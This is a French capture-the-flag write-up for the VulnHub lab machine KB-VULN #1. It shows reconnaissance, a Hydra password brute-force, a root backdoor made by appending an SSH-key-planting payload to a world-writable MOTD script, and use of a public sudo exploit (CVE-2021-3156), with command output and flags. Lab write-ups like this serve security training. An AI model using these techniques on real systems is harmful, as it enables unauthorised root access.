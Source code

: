# Solution du CTF KB-VULN #1 de VulnHub

Rapide et furieux
-----------------

Combien de temps faut-il pour résoudre un CTF ? Tout dépend bien sûr de la difficulté du challenge et des compétences du joueur.  

Pour celui-ci ([KB-VULN n°1](https://www.vulnhub.com/entry/kb-vuln-1,540/)) on est bien plus près des minutes que des heures, il n'en reste pas moins qu'on peut s'amuser (vite fait).  

```plain
Nmap scan report for 192.168.56.5
Host is up (0.00015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:84:46:ae:47:21:d1:73:7d:2f:0a:66:87:98:af:d3 (RSA)
|   256 af:79:86:77:00:59:3e:ee:cf:6e:bb:bc:cb:ad:96:cc (ECDSA)
|_  256 9d:4d:2a:a1:65:d4:f2:bd:5b:25:22:ec:bc:6f:66:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: OneSchool — Website by Colorlib
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:09:6B:FC (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Dans le FTP on trouve un fichier *.bash\_history*. Est-ce le dossier personnel d 'un utilisateur quelconque ? Dans tous les cas on ne dispose pas d'accès en écriture donc on s'arrête là.  

Une énumération de la racine web ne remonte rien mais un coup d'oeil à la source de la page d'index permet de trouver un nom d'utilisateur :  

```html
<!-- Username : sysadmin -->
```

Aussitôt dit, aussitôt cracké :  

```plain
$ ./hydra -l sysadmin -P rockyou.txt -e nsr ftp://192.168.56.5
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344407 login tries (l:1/p:14344407), ~896526 tries per task
[DATA] attacking ftp://192.168.56.5:21/
[21][ftp] host: 192.168.56.5   login: sysadmin   password: password1
1 of 1 target successfully completed, 1 valid password found
```

Cet identifiant permet l'accès au FTP mais surtout au SSH où l'on retrouve un premier flag.  

```plain
sysadmin@kb-server:~$ cat user.txt 
48a365b4ce1e322a55ae9017f3daf0c0
```

Cet utilisateur fait partie des groupes sudo et lxd :  

```plain
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Un petit coup de LinPEAS indique que le fichier */etc/update-motd.d/00-header* appartenant à root mais est word-writable.  

D'après [la page de manuel](https://manpages.ubuntu.com/manpages/bionic/man5/update-motd.5.html) :  

```plain
Executable scripts in /etc/update-motd.d/* are executed by pam_motd(8) as the root user at
each  login,  and  this  information  is  concatenated in /run/motd.dynamic.
```

Le script actuel est le suivant :  

```bash
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\n\t\t\tWELCOME TO THE KB-SERVER\n"
```

Je rajoute ces lignes :

```bash
echo $(id)
mkdir -p /root/.ssh
echo 'ssh-rsa --ma-cle-publique-ssh--' > /root/.ssh/authorized_keys
```

Et effectivement si je me reconnecte :  

```plain
$ ssh sysadmin@192.168.56.5
sysadmin@192.168.56.5's password: 

                        WELCOME TO THE KB-SERVER

uid=0(root) gid=0(root) groups=0(root)
```

Ce qui prouve que le script a été exécuté en root et que je me suis rajouté un accès.  

```plain
root@kb-server:~# cat flag.txt 
1eedddf9fff436e6648b5e51cb0d2ec7
```

On peut aussi obtenir l'accès root via [l'exploit pour sudo](https://github.com/worawit/CVE-2021-3156) utilisé sur le précédent CTF (Fawkes) :  

```plain
sysadmin@kb-server:~/CVE-2021-3156-main$ python3 exploit_nss.py
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(sysadmin)
```


*Published December 07 2021 at 21 51*